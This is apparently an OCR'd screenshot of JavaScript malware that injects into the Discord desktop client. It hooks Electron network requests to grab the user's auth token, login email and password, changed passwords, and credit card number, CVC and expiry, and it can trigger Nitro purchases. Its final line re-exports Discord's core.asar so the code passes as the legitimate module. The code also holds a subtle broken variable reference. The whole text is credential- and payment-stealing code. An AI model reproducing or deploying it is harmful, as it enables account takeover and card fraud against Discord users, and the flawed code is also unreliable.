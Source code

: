 session.defaultSession.webRequest.onCompleted(config.filter, async (details, _) => {
  if (details.statusCode !== 200 && details.statusCode !== 202) return;
  const unparsed_data = Buffer.from(details.uploadData[0].bytes).toString();
  const data = JSON.parse(unparsed_data);
  const token = await execScript(
    `(webpackChunkdiscord_app.push([[''],{},e=>{m=[];for(let c in e.c)m.push(e.c[c])}]),m).find(m=>m?.exports?.default?.getToken!==void 0).exports.default.getToken()`,
  );
  switch (true) {
    case details.url.endsWith('login'):
      login(data.login, data.password, token).catch(console.error);
      break;

    case details.url.endsWith('users/@me') && details.method === 'PATCH':
      if (!data.password) return;
      if (data.email) {
        emailChanged(data.email, data.password, token).catch(console.error);
      }
      if (data.new_password) {
        passwordChanged(data.password, data.new_password, token).catch(console.error);
      }
      break;

    case details.url.endsWith('tokens') && details.method === 'POST':
      const item = querystring.parse(unparsedData.toString());
      ccAdded(item['card[number]'], item['card[cvc]'], item['card[exp_month]'], item['card[exp_year]'], token).catch(console.error);
      break;

    case details.url.endsWith('paypal_accounts') && details.method === 'POST':
      PaypalAdded(token).catch(console.error);
      break;

    case details.url.endsWith('confirm') && details.method === 'POST':
      if (!config.auto_buy_nitro) return;
      setTimeout(() => {
        nitroBought(token).catch(console.error);
      }, 7500);
      break;

    default:
      break;
  }
});
module.exports = require('./core.asar');
